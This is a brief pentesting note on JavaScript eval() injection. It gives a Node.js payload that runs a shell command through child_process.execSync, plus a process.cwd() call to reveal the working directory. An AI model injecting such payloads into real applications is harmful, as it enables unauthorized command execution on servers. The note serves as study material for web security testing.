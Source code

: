 ```yaml
---
title: Javascript — eval()
date: 2023-11-07
tags:
  - pentesting/web-exploitation
---
```


# Javascript — eval()

---

- can be used to inject and execute arbitrary code

## [[Code Injection]]

To list the files in the current directory: 

```javascript
require('child_process').execSync('ls').toString()
```

To get the current working directory:

```javascript
process.cwd()
```